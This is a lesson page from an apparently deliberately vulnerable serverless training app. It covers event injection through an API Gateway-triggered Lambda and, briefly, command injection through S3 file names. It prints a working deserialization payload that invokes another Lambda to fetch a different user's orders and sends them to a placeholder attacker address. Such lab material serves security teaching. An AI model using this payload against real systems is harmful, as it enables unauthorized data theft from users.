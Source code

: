 # LESSON #1: Event Injection

## (1.1) Code Injection via API Gateway
The application sends all request to an API GW (*https://{string}.execute-api.{region}.amazonaws.com/{stage}/order*). 
All reqursts end up being handled by Lambda function, which invokes another lambda based on the incoming request.

**This function is vulnerable to Code Injection**. The function uses an insecure de-/serialization for the data in the request.

Using the following payload, it is possible to inject code that will be executed by the functioin.

`$$ND_FUNC$$_function (){}()`

For example, to get the orders of another user, we can send the payload:
```
{"action": "_$$ND_FUNC$$_function(){var aws=require(\"aws-sdk\");var lambda=new aws.Lambda();var p = {FunctionName: \"DVSA-ORDER-ORDERS\", InvocationType: \"RequestResponse\", Payload: JSON.stringify({\"user\": \"12312312-1233-1233-1233-123123123123\"})};lambda.invoke(p,function(e,d){ var h=require(\"http\");h.get(\"<ATTACKER_REMOTE_ADDRESS>\"+JSON.stringify(d));}); }()", "cart-id":""}
```

Where the *12312312-1233-1233-1233-123123123123* is the user-id of the user we want to steal the data from, and *<ATTACKER_REMOTE_ADDRESS>* is any address that we can send the data to. E.g. [ngrok](https://ngrok.com/).

As a result, we now have the user ordrs:

![alt ngrok](https://i.imgur.com/CAcywDz.png)

The above exmaple is the least of problems you can do with such an attack. Notice that there also admin functions :)


- - - 
## (1.2) Command Injection via S3 bucket
Event injections are not all about API calls and in serverless application, the source of the injection could be an email (file, subject, etc.), an MQTT pub/sub or any other cloud-resource event.

In this case, the DVSA is vulnerable to Command Injection via file name. The file is processed when uploaded to an S3 bucket. Since the bucket is configured insecurely, we can exploit it. 

To learn about this exploit, visit [Lesson #4: Insecure Cloud Configuration](../LESSONS/LESSON_04.md).

- - -
[ToC](../LESSONS/README.md) | [1](../LESSONS/LESSON_01.md) | [2](../LESSONS/LESSON_02.md) | [3](../LESSONS/LESSON_03.md) | [4](../LESSONS/LESSON_04.md) | [5](../LESSONS/LESSON_05.md) | [6](../LESSONS/LESSON_06.md) | [7](../LESSONS/LESSON_07.md) | [8](../LESSONS/LESSON_08.md) | [9](../LESSONS/LESSON_09.md) | [10](../LESSONS/LESSON_10.md)

